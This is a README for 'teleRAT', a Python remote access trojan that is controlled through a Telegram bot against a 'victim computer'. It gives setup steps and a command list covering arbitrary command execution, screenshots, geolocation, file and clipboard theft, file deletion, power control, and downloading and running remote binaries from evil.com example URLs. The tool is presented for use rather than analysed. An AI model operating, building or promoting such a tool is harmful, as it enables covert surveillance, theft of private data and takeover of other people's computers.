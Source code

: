 # teleRAT

Python based RAT that uses Telegram for sending commands and receiving data to and from a victim computer.


# Setup.py

1. Insert your API key into the `api` variable inside the setup.py script & run it. This will setup your Telegram chat with your created bot with the necessary commands to avoid inserting each command along with the help message.
* Read [here](https://www.teleme.io/articles/create_your_own_telegram_bot?hl=en) to create your own bot and obtain your API token.

2. Install necessary requirements: `pip install -r requirements.txt`
3. Send a command to your Telegram bot
4. Run `python3 main.py`


## Available Commands

* **/whoami** - returns username. no additional arguments required.
* **/screenshot** - takes screenshots. requires the number of screenshots to take (EX: /screenshot 5 <- to take 5 screenshots)
* **/location** - returns location info (region, state, zip code, estimated coordinates, timezone, country, ip address)
* **/metadata** - returns metadata info about a specified file. requires filepath as an additional argument (EX: /metadata C:\Users\Username\Files\special.java <- will return metadata info about special.java)
* **/execute** - executes specified system command. requires 2 additional arguments: the system command and additional arguments to pass to that system command (EX: /execute cmd.exe [/c,ver] or /execute binary.exe none} in order to execute binary.exe with no arguments)
* **/power** - allows operator to shutoff, hibernate, or restart computer. requires 1 additional argument: hibernate, pd (to power down), or restart (EX: /power pd <- to power down the victim's computer)
* **/ls** - provides operator with directory listing. If no additional argument is provided, it provides directory listing for directory in which malware is. Additional argument of a directory is optional (EX: /ls %APPDATA% <- provides directory listing for APPDATA directory)
* **/delete** - deletes a user specified file. Additional argument of filepath is required (EX: /delete C:\Users\Username\Files\temp.txt <- deletes a file named temp.txt)
* **/wreport** - provides information regarding the wireless profiles the computer has connected to in the past, the drivers, and a list of wireless interfaces.
* **/remotebinary** - download and execute a remote binary. Requires 2 additional arguments: the URL where the binary is and any additional arguments to pass when executing the binary (EX: /remotebinary https://evil.com/file.exe noargs <- execute file.exe with no arguments or /remotebinary https://evil.com/file.exe [-c,-f] <- to execute file.exe with flags c & f)
* **/processes** - returns a list of running processes and services
* **/gather** - return a specified file. requires 1 additional argument: the filepath (EX: /gather C:\Users\username\important\file.xlsx <- grab and upload file.xlsx to Telegram chat)
* **/report** - provides a hardware report & Windows version to operator
* **/playnoise** - plays a user specified noise. available list of noises include: asterisk sound (asterisk), exclamation sound (exclamation), exit sound (exit), hand sound (hand), question sound (question), and beep (beep) (EX: /playnoise beep or /playnoise question)
* **/gatherclip** - returns data currently copied in the victim's clipboard. requires no additional arguments.
* **/messagebox** - will present the victim with a message box. 2 additional arguments are required: caption and title for the window (EX: /messagebox <text> <title>
